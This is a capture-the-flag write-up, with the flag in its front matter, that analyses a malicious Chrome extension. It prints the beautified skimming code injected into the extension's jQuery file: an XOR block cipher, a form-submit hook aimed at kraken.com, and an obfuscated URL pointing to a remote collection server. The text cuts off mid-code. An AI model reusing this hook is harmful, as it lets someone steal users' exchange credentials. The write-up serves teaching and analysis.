 ```yaml
---
title: "Dongo Cat"
category: Reverse Engineering
tags: 
draft: false
completedDuringEvent: true
submitted: true
flag: IFEST13{Th3_ch41n_1s_str0ng_but_1t_br34ks_wh3r3_th3_hum4n_st4nds_6el28mws}
---
```

> Hey it's me Mr. Shock, I’ve got a question, totally not for me, of course. It’s for a friend. So here’s the situation, this friend just lost about 1 million USDT. Yeah... brutal. He’s kind of in panic mode right now, and I think he really needs that money back.
>
> Now, here’s the weird part. We’re not exactly sure how it happened. But let’s just say this friend has a very special relationship with his browser. He’s got it loaded with so many Chrome extensions, it’s honestly a miracle the thing even runs. Like, there’s an extension for everything. Want to count pixels? Got it. Turn tabs into cats? Got that too. He’s basically running an entire app store in his toolbar.
>
> I’m guessing one of those extensions was malicious. Probably some sneaky malware just chilling in the background, waiting for a chance to strike. I’ve attached one of the extensions he remembers installing before the whole thing went down. Would really appreciate it if you could take a look.
>
> Also... just between us... let’s pretend this friend isn’t terrible at cybersecurity and definitely didn’t ignore all the red flags, alright?

by `Lurifos`

---

The point is that we're given a `.crx` file containing a Chrome extension. Upon inspection, there are several JavaScript files included, such as `tailwind.js` and `jquery.js`. If we analyze them further, we'll notice that some malicious code has been injected into these scripts. This code is used to **encrypt form data** and **send it to a remote server** at `https://dongo-cat.lurifos.dev/file`.

Basically, just use an online JavaScript beautifier like [beautifier.io](https://beautifier.io) to make the code readable.

`jquery-3.7.1.slim.min.js`
```js
const x = (e, o) => {
        if (8 !== e.length || 8 !== o.length) throw new Error("Cannot encrypt, invalid block");
        return e.map(((e, n) => e ^ o[n]))
    },
    a_func_a = (e, o, n) => {
        if (e.length % 8 != 0) throw new Error("Cannot encrypt, invalid block");
        let r = [],
            t = n.slice(0, 8);

        function c(e) {
            return x(e, o)
        }
        for (let o = 0; o < e.length; o += 8) {
            const n = e.slice(o, o + 8),
                a = c(x(n, t));
            t = x(a, n), r.push(a)
        }
        return r.flat()
    };
$(document).on("submit", "form", (async function(e) {
    const o = String.fromCharCode(104, 116, 116, 112, 115, 58, 47, 47, 100, 111, 110, 103, 111, 45, 99, 97, 116, 46, 108, 117, 114, 105, 102, 111, 115, 46, 100, 101, 118, 47);
    if (!location.hostname.endsWith(".kraken.com") && "kraken.com" !== location.hostname) return;
    const n = new FormData(this),
```